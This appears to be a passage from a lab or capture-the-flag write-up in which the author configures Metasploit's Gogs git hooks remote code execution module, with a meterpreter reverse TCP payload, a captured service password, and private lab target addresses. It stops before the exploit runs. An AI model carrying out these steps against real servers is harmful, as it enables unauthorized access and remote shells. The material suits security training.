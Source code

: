 Now lets get a way to get shell via this Gogs interface 

After searching google i found this [Exploit](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/gogs_git_hooks_rce)

Since its msf lets hope on to it then

```
msf6 exploit(multi/http/gogs_git_hooks_rce) > use exploit/multi/http/gogs_git_hooks_rce                                                                                                [12/12]
[*] Using configured payload linux/x64/meterpreter/reverse_tcp                                                                                                                                
msf6 exploit(multi/http/gogs_git_hooks_rce) > options                                                                                                                                         
                                                                                                                                                                                              
Module options (exploit/multi/http/gogs_git_hooks_rce):                                                                                                                                       
                                                                                                                                                                                              
   Name       Current Setting  Required  Description                                                                                                                                          
   ----       ---------------  --------  -----------                                                                                                                                          
   PASSWORD                    yes       Password to use                                                                                                                                      
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]                                                                                         
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit                                                         
   RPORT      3000             yes       The target port (TCP)                                                                                                                                
   SSL        false            no        Negotiate SSL/TLS for outgoing connections                                                                                                           
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/gogs_git_hooks_rce) > set password svc-dev2022@@@!;P;4SSw0Rd
password => svc-dev2022@@@!;P;4SSw0Rd
msf6 exploit(multi/http/gogs_git_hooks_rce) > set username jane
username => jane
msf6 exploit(multi/http/gogs_git_hooks_rce) > set lhost tun0
lhost => 192.168.45.5
msf6 exploit(multi/http/gogs_git_hooks_rce) > set rhosts 192.168.153.224
rhosts => 192.168.153.224
msf6 exploit(multi/http/gogs_git_hooks_rce) > set rport 8000
rport => 8000
```